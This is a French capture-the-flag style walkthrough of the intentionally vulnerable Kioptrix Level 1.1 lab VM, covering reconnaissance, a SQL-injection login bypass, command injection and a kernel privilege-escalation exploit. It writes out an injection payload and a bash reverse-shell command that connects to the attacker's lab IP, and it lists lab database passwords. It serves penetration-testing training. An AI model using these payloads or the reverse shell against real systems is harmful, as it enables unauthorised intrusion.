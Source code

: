 # Kioptrix: Level 1.1 (#2)

## Détails de la machine

**Nom :** Kioptrix: Level 1.1 (#2)\
**Date de sortie :** 11 Février 2011\
**Lien de téléchargement :** [http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar](http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar)\
**Niveau :** Facile\
**Objectif(s) :** obtenir un accès "root"\
**Description :**\
`This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.` \
\
`This is the second release of #2. First release had a bug in it with the web application`\
`2012/Feb/09: Re-releases`\
`2011/Feb/11: Original Release`

## Reconnaissance

`netdicover` permet d'identifier l'adresse IP 192.168.1.15 comme étant la victime :

![](../../../.gitbook/assets/b236a71d370dbb557718fdf87b3310de.png)

Suivi de `nmap` afin de scanner les services s'exécutant sur la machine :

![](../../../.gitbook/assets/3c98b193738de5640529c7488d16abb0.png)

Résultat : un service SSH, un serveur web (en version HTTP et HTTPS), un serveur d'impression CUPS ainsi qu'une base de données MySQL.

### Serveur HTTP

Je commence directement par l'analyse du serveur web car je n'ai rien identifié de pertinent concernant la version 3.9 d'OpenSSH. Les résultats du `dirb` ainsi que du `nikto` ne donne rien de particulièrement intéressant non plus :

![](../../../.gitbook/assets/632f2601b754f23875ba841fe066b162.png)

La sortie est tronquée avec un `-r` mais rien d'intéressant même dans les sous-dossiers. Voici la sortie du `nikto` :

![](../../../.gitbook/assets/25d8f8c69663c0bd739f30efba3f3a0c.png)

Je passe donc à l'analyse manuelle du site web. La page d'accueil est une mire d'authentification. Après quelques weaks credentials je tente de détecter une injection SQL avec un simple `' OR 1=1 --` :

![](../../../.gitbook/assets/138b88530829224c303ba8a6da81f596.png)

Cela fonctionne et me permet de récupérer la prochaine page qui est une fonction permettant de pinger une machine du réseau (ça sent l'injection de commande) :

![](../../../.gitbook/assets/387198eb410ca24f85d8650701874168.png)

Je tente la plus simple des injections avec le caractère `;` permettant de séparer des commandes :

![](../../../.gitbook/assets/c740bfb3515f48418d595e5af47b73cd.png)

Je récupère l'id du compte apache qui exécute le serveur web. L'injection de commande est confirmée.

### Serveur d'impression

Cups est un serveur d'impression permettant aux utilisateurs de configurer les différents imprimantes. Pour cela il est également possible d'accéder au service par son interface web, dans mon cas un "403 - Forbidden" nous l'interdit :

![](../../../.gitbook/assets/88a52f4707669bd539b88b458ac4fc88.png)

La version utilisée de CUPS est la version 1.1, elle est vulnérable au moins à la CVE suivante (car je n'ai pas beaucoup cherché mais il semble que d'autres CVE soient disponibles pour cette version) :

![](../../../.gitbook/assets/d703a626c7f475515f7a4673dc41a387.png)

### MySQL

Je ne connais pas la version du système de base de données afin de déterminer si le service est vulnérable à certaines CVE.

## Exploitation

### Injection de commande

Il est facile de récupérer un shell grâce à l'injection de commande. `netcat` ne semble pas disponible sur la machine cible, je suis donc passé par un `bash` grâce à la commande `;bash -i >& /dev/tcp/192.168.1.89/5555 0<&1`. Afin de l'utiliser dans la requête POST je l'ai préalablement encodée avec un encodage URL :&#x20;

![](../../../.gitbook/assets/6fe012f0214d723cfac732eb5a647144.png)

Côté machine d'attaque, un `netcat` en écoute sur le port 5555 :

![](../../../.gitbook/assets/4ba3d8e2bcdca66ab9ba25049194b65d.png)

## Élévation de privilèges

Un `uname -a` m'indique une version de kernel 2.6.9 sur une Fedora 4.5 qui est vulnérable à la CVE-2009-2698 :

![](../../../.gitbook/assets/b7815d98dd05fd179ce4526541faac60.png)

Voici la CVE :

![](../../../.gitbook/assets/af4235a012598d0cfece5e368071a386.png)

Une fois l'exploit ([https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)) compilé et exécuté, j'obtiens les droits "root" :

![](../../../.gitbook/assets/b0bc23db78339563d8cf5087c24d1552.png)

## Conclusion

Il est également possible de récupérer les credentials de MySQL en affichant le fichier "index.php" du site web (soit une fois le shell récupéré ou alors via l'injection de commande) :

![](../../../.gitbook/assets/1dcd2f0b309cefd3548130d52d19cec1.png)

L'accès est refusé à partir d'une autre machine, mais une fois le shell récupéré grâce à l'injection de commande le contenu de la base est accessible :

![](../../../.gitbook/assets/d386607ad7c9b223571ecc7e9baec8b5.png)

Mais aucun des mots de passe ("hiroshima", ou "66lajGGbla") ne semble être le mot de passe du compte de "john" pour un accès en SSH. Pour information voici le contenu du fichier "/etc/passwd" :

![](../../../.gitbook/assets/ed4a366ae26ff7fd9393cb853207f4b6.png)

Je n'ai pas était plus loin dans la compromission des comptes existants, aucun mot de passe ne semble traîner dans un fichier quelconque.

Cette machine était très facile et donc parfaite pour commencer le pentest. Rien de compliqué, des failles web et un LPE à coup d'exploit d'un kernel vulnérable.

